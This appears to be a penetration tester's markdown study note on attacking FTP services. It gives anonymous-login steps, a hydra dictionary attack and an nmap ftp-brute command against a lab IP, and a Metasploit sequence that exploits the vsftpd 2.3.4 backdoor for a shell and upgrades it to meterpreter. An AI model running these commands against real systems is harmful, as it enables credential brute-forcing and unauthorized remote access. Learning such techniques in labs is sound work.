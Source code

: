# Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [hydra](#hydra)
	2. [nmap](#nmap)
	3. [msfconsole](#msfconsole)

---

# #Overview 
FTP - File Transfer Protocol

File sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter

## Related Services
vsftp
SFTP
ProFTPD

---

# #Tools
## #hydra
[Tool info - hydra](../Tools/Hydra.md)

Dictionary attack with *userlist* and *passlist*
- -t : threads
- -L : user File
- -P : pass File
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 -t 4 ftp
```

---

## #nmap
[Tool info - nmap](../Tools/NMAP.md)

Scripts
```bash
nmap 192.168.24.3 --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`

---

## msfconsole

1. `search type:exploit vsftpd`
2. `use exploit/unix/ftp/vsftpd_234_backdoor`
	1. info
	2. run : easy
	3. `/bin/bash -i` : launch bash session
	4. ctrl-z : to background the session
3. `search shell_to_meterpreter` : look for module to upgrade session
4. `use post/multi/manage/shell_to_meterpreter`
	1. `set LHOST eht1` : set to ip of interface eth1
	2. `set session 1` : set it to the session number for the shell connection
	3. `run`
5. `sessions -u 1` : to auto upgrade session to meterpreter
6. `sessions` : to show and then connect by specifying number
